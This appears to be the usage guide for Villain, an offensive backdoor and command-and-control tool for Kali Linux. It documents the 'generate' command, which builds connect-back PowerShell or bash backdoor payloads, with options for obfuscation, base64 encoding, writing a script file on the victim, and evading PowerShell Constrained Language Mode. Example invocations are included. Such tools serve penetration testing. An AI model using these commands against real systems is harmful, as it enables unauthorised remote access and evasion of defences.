 # Usage Guide
Villain was explicitly developed and tested on kali linux.  

## Table of contents
1. [Generate Backdoor Payloads](Generate-Backdoor-Payloads)
2. 


## Generate Backdoor Payloads
Use the "generate" prompt command to generate backdoor payloads for Windows or Linux machines. 

```
generate os=<OS Type> lhost=<IP or INTERFACE> [ exec_outfile=<REMOTE PATH> domain=<DOMAIN>] [ obfuscate encode constraint_mode ]
```

The backdoors are designed to start as new background processes. Currently supported types of backdoors:  
 - for Windows: Powershell 
 - for Linux: bash

#### Available arguments for the "generate" prompt command:
| Argument          | Required | Supported OS | Requires Input Val | Description |
|:-----------------:|:-------:|:-------------:|:------------------:|------------------------|
| os                | True    | All           | Yes                | The OS type to generate backdoor for [windows/linux]. |
| lhost             | True    | N/A           | Yes                | Your local IP or Interface to connect back. |
| domain            | Depends | N/A           | Yes                | If you have provided trusted cert and priv_key files to start Villain with SSL, you can provide domain instead of lhost. |
| obfuscate         | False   | Windows       | No                 | Auto-obfuscate the generated payload. This aims to assist you, not always do the job for you. |
| encode            | False   | Windows       | No                 | Base64 encode the generated payload. |
| exec_outfile      | False   | Windows       | Yes                | Provide a file path on the victim to write & execute commands from (instead of using IEX) |
| constraint_mode   | False   | Windows       | No                 | Make the generated payload work on PowerShell Constraint Language Mode. By using this option you sacrifice a bit of the decoding clarity of your shell. |

#### Examples:
```
# For Windows:
Villain > generate os=windows lhost=eth0 obfuscate
Villain > generate os=windows lhost=192.168.12.36 exec_outfile="C:\Users\\\$env:USERNAME\.local\hack.ps1" encode

# For Linux:
Villain > generate os=linux lhost=192.168.12.62
```
